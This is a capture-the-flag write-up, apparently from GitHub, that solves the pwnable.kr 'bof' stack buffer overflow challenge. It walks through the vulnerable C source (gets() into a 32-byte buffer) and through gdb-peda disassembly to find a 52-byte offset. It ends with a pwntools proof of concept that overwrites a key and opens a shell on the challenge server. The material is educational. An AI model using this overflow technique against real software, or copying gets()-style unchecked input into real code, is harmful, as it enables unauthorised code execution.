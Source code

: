 # [pwnable.kr](http://pwnable.kr/play.php) - bof Challenge
![](pwnable.kr-website.png)
## 1.1 Getting resource
```sh
$ wget http://pwnable.kr/bin/bof && wget http://pwnable.kr/bin/bof.c
```
```bash
th3knight$wget http://pwnable.kr/bin/bof && wget http://pwnable.kr/bin/bof.c
--2022-01-09 17:45:49--  http://pwnable.kr/bin/bof
Resolving pwnable.kr (pwnable.kr)... 128.61.240.205
Connecting to pwnable.kr (pwnable.kr)|128.61.240.205|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7348 (7,2K)
Saving to: ‘bof.2’

bof.2                         100%[=================================================>]   7,18K  --.-KB/s    in 0s

2022-01-09 17:45:50 (526 MB/s) - ‘bof.2’ saved [7348/7348]

--2022-01-09 17:45:50--  http://pwnable.kr/bin/bof.c
Resolving pwnable.kr (pwnable.kr)... 128.61.240.205
Connecting to pwnable.kr (pwnable.kr)|128.61.240.205|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 308 [text/x-csrc]
Saving to: ‘bof.c.2’

bof.c.2                       100%[=================================================>]     308  --.-KB/s    in 0s

2022-01-09 17:45:50 (18,1 MB/s) - ‘bof.c.2’ saved [308/308]
```

## 1.2 Overflowing the program
### 1.2.1 Reading and analysis the source code
First up, we need to see what is in the code
```bash
$ cat bof.c
```
```c
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```
We see that, in the main function inputted is `0xdeadbeef`
```c
int main(int argc, char* argv[]){
        func(0xdeadbeef); // <=== Here
        return 0;
}
```

and in `func()`, there is an array with `char overflowme[32]` and have a risk function called from lib is `gets()` with the note: smash me!
```c
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
```
and if the key (which is `0xdeadbeef`) is `0xcafebabe`, there would be system call the `sh` binary
```c
if(key == 0xcafebabe){
	system("/bin/sh");
}
```
### 1.2.2 Debugging program and find the offset to overflow & override the key.
In here i will use the gdb debugger to the bug the program
```bash
th3knight$gdb -q bof
Reading symbols from bof...
(No debugging symbols found in bof)
gdb-peda$
```
In here, the output of mine might different than yours because i've already installed the [Peda](https://github.com/longld/peda)
Let's disassembly the main
```powershell
gdb-peda$ disas main

Dump of assembler code for function main:
   0x5655568a <+0>:     push   ebp
   0x5655568b <+1>:     mov    ebp,esp
   0x5655568d <+3>:     and    esp,0xfffffff0
   0x56555690 <+6>:     sub    esp,0x10
   0x56555693 <+9>:     mov    DWORD PTR [esp],0xdeadbeef
   0x5655569a <+16>:    call   0x5655562c <func>
   0x5655569f <+21>:    mov    eax,0x0
   0x565556a4 <+26>:    leave
   0x565556a5 <+27>:    ret
End of assembler dump.
```
In here, we could see in the address `0x56555693` : `0xdeadbeef` moved into pointer of ESP and then `call <func>`, let's disassembly the function `func` to see other intructions.
```powershell
gdb-peda$ disas func

Dump of assembler code for function func:
   0x5655562c <+0>:     push   ebp
   0x5655562d <+1>:     mov    ebp,esp
   0x5655562f <+3>:     sub    esp,0x48
   0x56555632 <+6>:     mov    eax,gs:0x14
   0x56555638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
   0x5655563b <+15>:    xor    eax,eax
   0x5655563d <+17>:    mov    DWORD PTR [esp],0x78c
   0x56555644 <+24>:    call   0x56555645 <func+25>
   0x56555649 <+29>:    lea    eax,[ebp-0x2c]
   0x5655564c <+32>:    mov    DWORD PTR [esp],eax
   0x5655564f <+35>:    call   0x56555650 <func+36>
   0x56555654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x5655565b <+47>:    jne    0x5655566b <func+63>
   0x5655565d <+49>:    mov    DWORD PTR [esp],0x79b
   0x56555664 <+56>:    call   0x56555665 <func+57>
   0x56555669 <+61>:    jmp    0x56555677 <func+75>
   0x5655566b <+63>:    mov    DWORD PTR [esp],0x7a3
   0x56555672 <+70>:    call   0x56555673 <func+71>
   0x56555677 <+75>:    mov    eax,DWORD PTR [ebp-0xc]
   0x5655567a <+78>:    xor    eax,DWORD PTR gs:0x14
   0x56555681 <+85>:    je     0x56555688 <func+92>
   0x56555683 <+87>:    call   0x56555684 <func+88>
   0x56555688 <+92>:    leave
   0x56555689 <+93>:    ret
End of assembler dump.
```
In thí function, I see the compare intruction `cmp  DWORD PTR [ebp+0x8],0xcafebabe` so i know this is `if(key == 0xcafebabe)` operation. Let's make a break point on it and create a pattern to overflow and get the offset.

Folowing to the workflow of the code, I know that `0x5655564f <+35>:  call   0x56555650 <func+36>` will be the `gets()`,  so I just make a breakpoint before and after calling it to see what happend.
```powershell
gdb-peda$ br *0x5655564c
Breakpoint 1 at 0x5655564c
gdb-peda$ br *0x56555654
Breakpoint 2 at 0x56555654
```
Creating the offset
```powershell
gdb-peda$ pattern create 100 1.txt
Writing pattern of 100 chars to filename "1.txt"
gdb-peda$ r < 1.txt
```
On the stop of break point 1, we use `x/100wx $esp` to show the esp, I got lots of result but can see that there is 0xdeadbeef overthere
```powershell
0xffffd210:     0xffffd22c      0x00000000      0xf7ffd000      0x00000000
0xffffd220:     0x00000000      0x00000000      0x56555034      0x5655573a
0xffffd230:     0x56556ff4      0xf7fa6000      0x00000001      0x5655549d
0xffffd240:     0xf7fa63fc      0xffffffff      0x56556ff4      0xbb15de00
0xffffd250:     0x56556ff4      0xf7fa6000      0xffffd278      0x5655569f
0xffffd260:     0xdeadbeef      0x00000000      0x565556b9      0x00000000 ; <===
```
Now we know the address `0xffffd260` has`0xdeadbeef`. Enter `c` or `continue` to continue and stop at the next breakpoint, let's show it's stack to get the offset and using the pattern offset of ![peda](https://github.com/longld/peda) to find the exact length
```powershell
gdb-peda$ x/x 0xffffd260
0xffffd260:     0x41474141
gdb-peda$ pattern offset 0x41474141
1095188801 found at offset: 52
```

### 1.3 POC and getting the flag
We already know position of `0xdeadbeef`, it's beginning from word 52. I wrote a python script `poc.py` to make a buffer and send to the server following the instruction of the game `nc pwnable.kr 9000`. 
```python
#!/usr/bin/python3
import struct  
import pwn  
  
junk = b'A'*52  
key = struct.pack('<L', 0xcafebabe)  
overriden_key_buffer = junk + key  
connection = pwn.remote('pwnable.kr', 9000)  
connection.sendline(overriden_key_buffer)  
connection.interactive()
```
```bash
th3knight$./poc.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ ls
bof
bof.c
flag    <=== This is what we need
log
log2
super.pl
```
Thanks for reading
